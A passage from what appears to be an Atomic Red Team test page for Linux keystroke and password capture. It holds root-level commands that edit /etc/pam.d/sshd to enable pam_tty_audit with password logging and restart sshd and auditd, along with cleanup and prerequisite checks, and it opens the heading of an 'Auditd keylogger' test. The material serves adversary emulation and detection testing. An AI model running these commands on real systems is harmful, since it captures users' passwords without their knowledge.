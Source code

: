 
#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
cp -v /etc/pam.d/sshd /tmp/
echo "session required pam_tty_audit.so disable=* enable=* open_only log_passwd" >> /etc/pam.d/sshd
systemctl restart sshd
systemctl restart auditd
ssh #{user_account}@localhost 
whoami
sudo su
whoami
exit
exit
```

#### Cleanup Commands:
```sh
cp -fv /tmp/sshd /etc/pam.d/
```



#### Dependencies:  Run with `sh`!
##### Description: This test requires sshd and auditd
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v sshd)" ]; then echo -e "\n***** sshd NOT installed *****\n"; exit 1; fi
if [ ! -x "$(command -v auditd)" ]; then echo -e "\n***** auditd NOT installed *****\n"; exit 1; fi
```
##### Get Prereq Commands:
```sh
echo ""
```




<br/>
<br/>

## Atomic Test #7 - Auditd keylogger
The linux audit tool auditd can be used to capture 32 and 64 bit command execution and place the command in the /var/log/audit/audit.log audit log.

**Supported Platforms:** Linux


**auto_generated_guid:** a668edb9-334e-48eb-8c2e-5413a40867af






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 
